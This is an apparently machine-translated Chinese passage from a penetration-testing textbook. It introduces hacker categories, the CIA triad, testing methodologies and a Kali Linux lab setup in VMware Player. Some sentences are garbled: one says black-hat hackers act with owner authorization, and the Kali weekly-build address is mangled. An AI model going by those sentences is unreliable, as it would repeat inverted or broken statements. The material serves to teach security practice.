在本章中，我们将深入研究与渗透测试相关的基础术语以及不同类型的渗透测试、方法论和手段。我们还将简要讨论网络安全的基本构建模块以及它们如何帮助你成为一名优秀的渗透测试员。

黑客是指探索突破防御和利用计算机系统或网络弱点方法的人。黑客的动机可能来自多种因素，如利润、反对、信息收集、挑战、娱乐或对系统弱点进行评估以帮助开发针对潜在黑客的防御。


个人经常对“黑客攻击”和“网络安全”这两个术语感到困惑。网络安全是一个广义，包含了各种计算机或网络安全系统，而黑客攻击或伦理攻击是其中之一。网络安全主要是各种技能和工具的结合，其目标为用户提供最有效的安全。

## 世界上有三种不同的黑客

这是伦理黑客或渗透测试员的另一个名称。他们在获得事先许可的情况下进行黑客攻击，发现漏洞以便进行修复。

他们也被称为不伦理黑客，他们黑客是为了获取对系统的未经访问访问并在所有者授权的情况下盗取敏感信息。由于具有破坏意图，这种行为一直被禁止，包括盗取公司数据、侵犯隐私、破坏系统等。

灰帽客是黑帽和白帽客的结合。他们大多是为了好进行黑客攻击，并在所有者不知情的情况下利用计算机系统或网络的弱点。他们的意图是让所有者注意到弱点并赚取漏洞赏金。

下图展示了不同类型的黑客：

`img/5cafe5b4b24a42ad00587473aac823_46.png`

除了这些，我们还有国家赞助的黑客和行动黑客，他们为了某个目的入侵政府和公司互联网网站。

政府或国家指定黑客来获取有关其他国家、组织或军事承包商的信息，从对手那里获得秘密信息，并对国家任何类型的威胁做好准备。

行动黑客是为了社会或政治目的计划攻击联邦政府和公司网站的黑客类型。他们将自己定位为活动家，因此被称为行动黑客。行动黑客可能是特定的个人，也可以是一群意图在未经的情况下访问政府网站和网络的匿名黑客。

## 网络安全要素

网络安全有不同的要素，如下所示：

- 网络安全
- 应用安全
- 云安全
- 移动安全
- 数据库安全
- 数据安全
- 身份访问管理
- 终端安全
- 灾难恢复/业务连续计划
- 终端教育，也称为安全意识教育

作为本书的一部分，我们将在后面的章节详细讨论其中的一些要素。

## CIA 三元组

网络安全必须从某处开始。通常，那个地方是重要安全原则的清单。在清单中，`机密性、完整性和可用性 (CIA)` 是主要条目，因为它们通常被认为是任何类型安全框架的主要目标和目的。这就是为什么它们被视为安全基础并被称为 `CIA` 三元组术语的原因，如图 2.2 所示：


图 2.2：`CIA` 三要素模型

机密性确保数据、对象或资源机密性防御的概念。机密性的目标是避免或减少对数据的未经授权的访问。这是 `CIA` 三要素模型的初始概念。机密性侧重于安全程序，确保除指定接收者之外的任何人都不会接收或读取消息。机密性保护为授权用户访问和与资源通信提供了手段，同时主动阻止未经授权的用户进行此类操作。一系列安全控制措施可以为机密性提供保护，包括但不限于加密、访问控制和隐写术等。

`CIA` 三要素模型的第二个原则是完整性。完整性是确保数据可靠性和准确性的原则。完整性保护防止对数据的未经授权的篡改。适当应用完整性控制可以确保数据保持正确、未更改且得到良好维护。它在允许授权修改的同时，防止无意的、恶意的未经授权的活动（如病毒）以及授权用户所犯的错误。

`CIA` 三要素模型的第三个概念是可用性，这意味着授权元素（例如，`用户`）应当获得对授权对象或资源的及时且持续的访问。如果安全工具提供了可用性，它就提供了高度保证，确保在请求时数据和资源能够到达授权用户。可用性包括对事物的有效不中断访问以及避免`拒绝服务 (DoS)`攻击。可用性还意味着持续性基础设施（包括网络服务、通信和访问控制设备）允许授权用户获得认证的访问。

## 渗透测试

`渗透测试`（或 `pen test`）是一种通过安全地尝试发现并利用漏洞来评估 IT 框架安全的尝试。这些漏洞可能存在于操作系统、服务和应用程序、不当的配置或高风险端用户行为中。此类评估在确保端用户遵守安全策略的同时，验证了安全系统的有效性。

渗透测试通常使用手动或自动化技术进行，有系统地破坏服务器、端点、应用程序、无线网络、网络设备、智能手机以及其他各种可能的暴露因素。一旦某个系统上的漏洞被利用，测试人员可能会尝试利用受破坏的系统对其他内部资源发起后续攻击，特别是通过权限提升尝试增量地获得更高级的安全许可以及对连接系统和信息的更深层次的访问。

### 渗透测试的重要性

网络安全对于维护公司网络、系统和其他基本属性的安全至关重要。渗透测试有助于安全团队针对系统的某些方面发现任何形式的现有漏洞和设计缺陷 `渗透人员`（`pentester`）通过识别、搜索、突破和报告其基础设施中存在的漏洞来帮助公司。

任何形式的渗透测试参与都可以根据客户的需求、偏好和工作情况进行定制。因此，对于小型企业和初创公司来说，根据需求执行和定制渗透测试是有帮助的。评估后，渗透测试人员将分享有关发现结果的详细报告，公司可以选择消除危险。

目前，几乎所有的联邦政府以及企业、金融、医疗和军事机构都在计算机和其他连接设备上积累了前所未例的数据。大部分数据是敏感信息，无论是版权、财务数据、个人信息或其他类型的数据，未经授权的访问或暴露都会产生不利影响。在经营业务时会跨网络、互联网以及各种其他设备传输这些敏感数据。网络安全规定了保护这些信息的原则、方法以及用于处理或存储这些信息的系统。随着网络攻击规模和种类的增长，企业和公司（特别是那些负责保护国家安全、健康或经济相关信息的公司）需要采取行动来保护其敏感的公司和个人信息。

在当今日益受控的环境中，所有行业的组织都需要遵守若干与信息安全相关的合规标准和政策。因此，组织还需要出于合规目的渗透测试。它有助于公司了解其组织的独特风险状况。我们将在后面的章节讨论这些合规标准。

渗透测试执行标准主要由七阶段组成，涵盖了与渗透测试相关的所有内容。以下是该标准定义的阶段阶段：

- 前期交互
- 信息收集
- 威胁建模
- 漏洞分析
- 漏洞利用
- 漏洞利用后
- 报告

如果这些步骤现在对你来说还没有意义，不要惊慌，我们将在后面的章节中深入探讨每一个步骤。

行业中基本上遵循三种渗透测试方法。它们将在接下来的章节中进行讨论。

在黑盒渗透测试中，渗透人员无法获得客户应用程序或网络的任何授权内部访问权限。渗透人员必须进行所有侦察以获取所需的理解并继续进行，这使他们处于尽可能接近正常攻击者的状态。这种类型的测试是最合理的，但它需要大量时间，并且最容易忽略网络或应用程序内部存在的漏洞。现实中的攻击者没有时间限制，可以花费几个月来制定攻击计划，等待合适的时机。

此外，网络内部有很多保护工具可以帮助防止现有漏洞被利用。即使是 浏览器也有可以防止攻击的设置，但应用程序中的弱点可能仍然存在，而所有需要的只是一个变体浏览器版本。仅仅因为配置避免了漏洞被发现并不并不意味着漏洞不存在；它意味着外部压力缓冲了结果。这可能导致极其的结果和虚假的安全感。

更高水平访问和内部理解的交互属于灰盒渗透测试。坦率地说，黑盒测试人员从严格的外部视角开始，尝试进入；而灰盒测试人员被提供了一些内部访问和理解，例如低级访问权限、应用程序逻辑流程图或网络地图。灰盒测试可以模拟已经通过边界并拥有某些内部访问权限的攻击者。

为执行评估的安全测试人员提供某些类型的背景有助于产生更高效、更精的测试报告。这减少了在侦察阶段投入的时间（和资金），使顾问能够将精力放在利用高风险系统的漏洞上，而不是尝试发现这些系统在哪里。

渗透测试的最后一个类别是白盒测试，它允许安全顾问对应用程序和系统完全完全开放访问。这使得专家可以使用源代码并拥有网络的高权限账户。白盒旨在识别不同位置的潜在弱点，例如逻辑漏洞、潜在的安全暴露、安全配置错误、编写不当的代码以及缺乏防御程序。这种评估更为详尽，因为内部和外部漏洞都是从通常不提供给典型攻击者的后台视角进行评估的。

## 渗透测试人员核心特征

在这一节中，我们将尝试总结潜在的渗透测试人员必须具备的核心特征，以及开始渗透渗透测试工作可能需要的内容。以下是其中一些：

- 培养黑客思维
- 具有创意
- 通过每天学习新知识来突破极限
- 提升社交技巧

作为一名渗透测试人员，你可以通过合法地黑入安全系统来获取薪水。如果你对网络安全和解决问题充满热情，这将是一份忙碌而有趣的工作。因此，个人必须学会像黑客一样思考并付诸实践。这不是一个一蹴而就的过程，而是需要时间的。随着你阅读的越多、解决的挑战越多，这种能力会随着实践而逐渐提高。渗透测试人员拥有好奇的好心，以及对系统运作方式的渴求。虽然许多人对信息系统有技术上的理解，但他们通常缺乏优秀渗透测试人员的一项关键特征：黑客思维。要取得成功，你必须像攻击者一样思考。

不同的人对创造性思维的定义不同。随着安全防御变得日益复杂，威胁者必须变得非常有创新才能实现他们的目标。为了模仿这些攻击者，渗透测试人员必须多才多艺。富有创造力的渗透测试人员应该是多变的。他们能够根据情况的变化调整路线（这是通常的情况）。他们应该能够切换策略，并保持灵活的思维来适应、面对并解决新挑战。

### 通过每天学习新事物来挑战极限

渗透测试人员需要对信息技术（IT）和安全系统有深入理解，以便对其进行漏洞测试。渗透测试人员通常利用的技能包括：

- 网络和应用安全
- 编程语言，特别是脚本语言（`Python`, `BASH`, `Ruby`, `Perl`）
- 威胁建模
- `Linux`, `Windows` 和 `macOS` 环境
- 安全评估工具
- 渗透测试管理平台
- 技术写作与文档编写
- 密码学
- 云架构
- 恶意软件分析

你应该通过获取你认为有助于你成为更好的渗透测试人员的新技能，不断挑战自己的极限。


你可以注册专业的课程或培训计划，以练练作为渗透测试人员所需的技能。通过这些项目，你可以在更有组织性的环境中学习新知识，同时培养多种技能。

网络安全认证向雇主和招聘主管证明了你具备在该领域发展所需的技能。除了这些通用的网络安全认证外，你还可以获得渗透测试或道德黑客的认证。值得考虑的证书包括：

- CompTIA PenTest+
- GIAC Penetration Tester (GPEN)
- GIAC Web Application Penetration Tester (GWAPT)
- Offensive Security Certified Professional (OSCP)
- Offensive Security Web Expert (OSWE)
- Offensive Security Wireless Professional (OSWP)
- Offensive Security Exploitation Expert (OSEE)

然而，专业认证并非万灵药。你可以从互联网上广泛提供的免费信息中获得同样的技能，但可能需要花费更多的时间和耐心。

许多公司都希望聘用有经验的渗透测试人员。坦率地说，除了工作之外还有其他获得经验的方法。一些渗透测试培训计划包含了模拟环境下的实操测试。

获得经验的另一种方法是参加赏漏洞计划（Bug Bounty Programs）。在这些计划中，公司通常为独立渗透测试人员（通常称为安全研究员）提供资金，定位并报告其系统中的安全缺陷。这是测试技能的一种极佳方式。有时漏洞没有报酬，他们通常通过在公司网站上设立“荣誉堂”（Hall-of-Fame）页面来认可他们的工作，这是一个非常好的简历加分项。

最后，你会发现许多允许渗透测试人员合法进行黑客实践和实验的网站。以下是几个入门网站：

- Hack the Box (https://www.hackthebox.com/)
- Hack.me (https://hack.me/)
- OWASP WebGoat (https://www.owasp.org/www-project-webgoat/)

我们将在后面的章节中学习更多磨练技能的方法。

## 磨练你的社交技巧

无论你是否是一个硬核极客，都应该意识到渗透测试人员是一个专业人士。这意味着你需要能够与客户/服务消费者建立良好的联系。主要有两个需要关注的重点：

- 清晰的报告和写作能力：这是至关重要的，因为你工作的唯一产出就是渗透测试报告。你可能是世界上顶级的黑客之一，但如果你的报告很糟糕，那么你的客户就会认为你的工作也是糟糕的。因此，你的报告必须清晰、客观且易于理解。我们将在第9章“报告准备与文档编写”中详细讨论报告。
- 清晰的沟通能力：你肯定需要与客户进行一些口头和书面的沟通。你主要与管理层交流，因为他们是付钱的人，你需要能够与非技术人员讨论一切。同样，你肯定需要与程序员交流，并向他们描述你的发现，同时不要打扰他们。清晰沟通的能力是必须的。

## 渗透测试的局限性

进行一系列渗透测试将帮助测试某些安全措施并识别改进之处，但它并不是解决所有问题的万良药。例如，渗透测试具有以下特点：

- 仅涵盖所选测试的目标应用程序、基础设施或环境。
- 侧重于技术基础设施中的暴露，因此无法涵盖关键或敏感信息泄露到组织的所有方式。
- 在审查组织的人员因素方面仅起很小的作用。人员因素往往是组织防御系统中最重要的部分。
- 可能受到法律或商业考虑的限制，限制了渗透测试的广度和深度。
- 可能无法发现所有的安全漏洞，例如由于范围受限。
- 提供的结果通常具有技术性质，需要在业务语境下进行解释。

### 结论

渗透测试可以帮助缓解公司可能面临的威胁风险。然而，需要采用良好的安全方法来保护你的组织。通过对网络安全采取基于风险的方法，你将能够处理优先的威胁。

从下一章开始，我们将引导你搭建一个极简实验室，这将帮助你在深入研究不同类型渗透测试的同时磨练技能。

### 问题

以下是你在工作面试中可能会遇到的的相关问题：

1. 渗透测试方法论有哪些不同的类型？
2. 网络安全中的 CIA 三要素模型是什么？
3. 黑客有哪些不同的类型？
4. 身份验证（Authentication）和授权（Authorization）的区别是什么？
5. 渗透测试的主要局限性是什么？

在了解了一些关于渗透测试的知识后，我们将学习如何选择合适的环境。在本章中，我们将主要涵盖 Web、网络、无线和移动渗透测试所需的实验室搭建。

## 建立内部渗透实验室的重要性

建立内部渗透实验室的显而易见的理由是提供一个无干扰的环境来评估你的渗透测试能力。建立自己的隔离实验室有几个优点。

一个内部渗透实验室是磨练技能的同时规避法律问题的绝佳方式。未经事先许可，黑入他人的系统和网络是被禁止的，但建立一个模拟他人环境的实验室并对自己的系统进行渗透测试是完全合法的。

从安全角度来看，在隔离的实验室进行渗透测试也有好处。某些渗透测试工具和策略具有破坏目标计算机或网络的能力。如果在测试中使用恶意软件，存在感染的可能性，并且如果在连接互联网的测试平台上进行测试，它可能会扩散。独立的、隔离的测试平台可以确保测试的影响限制在实验室的硬件和软件上。

最后，建立内部渗透实验室对于新型渗透方法和工具的研发很有帮助。隔离的实验室为测试提供了一个受控的环境，并具备配置目标以满足测试所需精确要求的能力。

## 渗透实验室的拓扑结构

对于初学者来说，渗透实验室只需要一个易受目标计算机和一个渗透测试系统。在本节中，我们将快速查看在实验室所需的某些基本元素，以练习你的 Web、网络和移动渗透测试技能。你需要建立两个系统：一个用于模拟攻击，另一个是你将执行攻击的系统。得益于现代虚拟化技术，你可以从单台计算机上运行多个系统。然而，你需要记住几点：

- 系统在你的主机计算机上应有足够的磁盘空间来安装每个虚拟机。
- 系统在 BIOS 设置中应启用硬件虚拟化设置。
- 系统应至少配备 16 GB 内存。

图 3.1 显示了一个非常基础的渗透测试实验室拓扑结构。在这里，我们有四个基础系统：

- 虚拟机 (VM) 1：VM - 攻击者 (Kali Linux)
- 虚拟机 (VM) 2：VM - 受害者 (Windows)
- 虚拟机 (VM) 3：VM 受害者 (Linux)
- 虚拟移动设备 (Android 模拟器)



图 3.1：你的渗透测试实验室的网络拓扑结构

你需要确保实验室的每个元素都能与互联网通信并相互通信。在你的虚拟环境中，这将通过虚拟 NAT 实现。

## 搭建 Web 和网络渗透测试实验室

现在我们已经看到了渗透实验室的一些基本元素，是时候开始构建这些系统了。在你的渗透测试的实验室中，同时拥有 Windows 和 Linux 系统始终是最好的，因为每个平台都提供不同的工具和功能。我们必须在实验室中虚拟化地部署这些系统。为此，我们需要虚拟化软件的帮助。

## 在实验室中使用虚拟化技术

建立渗透测试环境时要面临的一个主要选择是利用物理硬件、虚拟化还是两者的结合。这两种方法都有其优缺点。虚拟化的一些主要优点是价格低廉和可扩展性。现有的物理机可以组织一台或多台渗透机以及整个目标网络。

虚拟机额外提供了快照功能，使得保存机器当前状态和清理受污染的机器变得轻而易举。从开始，完全或很大程度上虚拟化的环境可能是建立渗透测试环境的最有效方法。在选择虚拟化系统时，有很多免费的和工业级的选择。

如果你是初学者，我们建议你坚持使用免费的虚拟化平台：

- VirtualBox
- VMware workstation/VMware player
- Hyper-V

在本章中，我们将主要处理 VMware workstation player，它是 VMware workstation 的免费版本。

## 渗透实验室的基本元素

对于初级渗透测试者，测试实验室只需要包含一个易受目标计算机和一个渗透测试计算机。

### 易受目标/受害者系统

渗透测试实验室目标环境的布局应该取决于测试者的专业水平以及渗透测试练习的目标。初级渗透测试者应该从简单的环境开始，根据需要增加复杂度。通过从易受目标开始，渗透测试者可以创建一个符合其要求的适当复杂度的环境。你可能根据需要各种系统。

以下是渗透测试者可以包含在实验室作为易受目标的某些故意留漏洞系统：

- VulnHub：VulnHub 提供材料，让任何人都能获得数字安全、计算机应用程序和网络管理任务的实操经验。
- Metasploitable：Metasploitable 是一个故意留漏洞的 Linux 虚拟机。该虚拟机可用于安全培训、测试安全工具以及练习常见的渗透测试技术。
- Juice shop（用于 Web 应用测试的易受 Web 应用资源）：OWASP juice shop 可能是最现代、复杂的不安全 Web 应用程序。它可以用于安全培训、意识演示、CTF 以及作为安全工具的实验小白鼠。Juice shop 涵盖了整个 OWASP 十十大中的漏洞，以及在现实应用中发现许多许多安全缺陷。


# Damn vulnerable web app
Damn Vulnerable App (`DVWA`) 是一个基于 `PHP/MySQL` 的故意留漏洞的应用程序。它的主要目标是帮助安全研究人员加固他们的应用程序。

## 攻击者机器
对于新手来说，下载并安装一个预配置的渗透系统比从零开始构建要好得多。`Kali` 发行版（以前称为 `Backtrack`）是免费提供的，并集成了许多典型的渗透工具。

## 介绍 Kali Linux
初学者在建立渗透实验室时的常见疑问是使用 Linux 还是 Windows 作为主系统。资深渗透测试者出于许多原因选择 Linux 作为他们的主系统。第一个原因是黑客工具的可用性，特别是 Linux 操作系统的开源属性使他们选择它而不是 Windows。然而，始终建议在渗透测试中同时拥有 Windows 和 Kali 盒子，因为每个平台可能提供不同的工具和功能。`Kali Linux` 绝对是伦理黑客最好的操作系统之一，因为它包含了一组分类良好的工具。`Kali Linux` 应该作为主操作系统安装在机器上，我们本节中讨论。

## 在虚拟机中安装 Kali Linux – VMware Workstation Player
`VMware Workstation Player` 是 `VMware Workstation Pro` 的功能限制免费版本。这意味着它就像 `VMware Workstation Pro`，但功能较少。然而，可用功能对于大多数用户来说足够了。`VMware Workstation Player` 是免费提供的。

`VMware Workstation Player` 的下载页面有所有可用下载选项：`https://www.vmware.com/in/products/workstation-player.html`。你可以从上述 URL 下载 `VMware Workstation Player` 并将其安装到你的系统中。

### 第一步 – 获取 Kali Linux ISO 镜像
为了安装 `Kali Linux`，我们必须获取安装 ISO 镜像文件。你可以通过访问下载页面获取它。根据你的系统下载 64 位或 32 位镜像：
`https://www.kali.org/downloads/`

### Kali Linux 下载
我们每隔几个月会生成新的 `Kali Linux` 镜像并供下载。本页面提供了下载最新官方发布版 `Kali Linux` 的链接，以及位于 `cimageage.org/kali-weekly/` 的未测试每周发布版。

如需查看发布历史，请访问我们的 `Kali Linux` 发布页面。

#### Kali Linux 2021.1 发布日志

*图 3.2：Kali Linux ISO 下载页面*

### 步骤 2 – 在磁盘中找到下载的文件
文件下载后，你应该能看到一个 ISO 镜像，如图 3.3 所示。

*图 3.3：磁盘中下载的 ISO 镜像*

### 步骤 3 – 打开 VMware Player
如果桌面上 `VMware Player`，请打开它。或者，你也可以从 Windows 开始菜单打开。启动后，你将看到如图 3.4 所示的窗口：

图 3.4：VMware Player 启动页

### 步骤 4 – 新虚拟机安装向导
要创建新虚拟机，点击“文件 (File) -> 新虚拟机 (New Virtual Machine)”。将弹出一个“欢迎使用新虚拟机向导”对话框。选择“典型 (Typical)”并点击“下一步 (Next)”。

### 步骤 5 – 出现欢迎新虚拟机向导对话框
新虚拟机创建向导的第一个窗口如图 3.5 所示。

在此对话框中，你有一个选项可以浏览下载的 ISO 文件，并点击“下一步 (Next)”。通常情况下，`VMware Workstation` 会自动检测操作系统并启动所谓的“简易安装 (Easy Install)”。在这种情况下，你可以选择“稍后安装操作系统 (I will install the operating system later)”。

### 步骤 6 – 指定客户操作系统
在此对话框中，你将被要求选择客户操作系统。根据你下载的 `Kali Linux` 系统架构，选择客户操作系统为 `Ubuntu 64` 位或 `32` 位：

图 3.6：指定客户操作系统

### 步骤 7 – 输入你的虚拟机名称
在此对话框中，你将被要求提供虚拟机的名称。你可以提供任何你喜欢的名称，也可以更改虚拟机的位置：

图 3.7：你的虚拟机名称

### 步骤 8 – 指定虚拟磁盘容量
此对话框要求你指定虚拟磁盘容量，即虚拟机创建后它将利用最大磁盘空间量。你可以保持默认值，但建议将其增加到至少 `60GB`。
确保勾选了“将虚拟磁盘拆分为多个文件 (Split virtual disk into multiple files)”。尽管这是默认选项：

图 3.8：指定虚拟磁盘容量

### 步骤 9 – 准备好创建虚拟机对话框
这是最后一个对话框，允许你检查之前选择的选项：

**图 3.9：** 检查你的虚拟机设置
上一个对话框将允许对连接到虚拟机的硬件进行进一步自定义。一旦你点击“自定义硬件 (Customize Hardware...)”按钮，将打开一个新窗口：
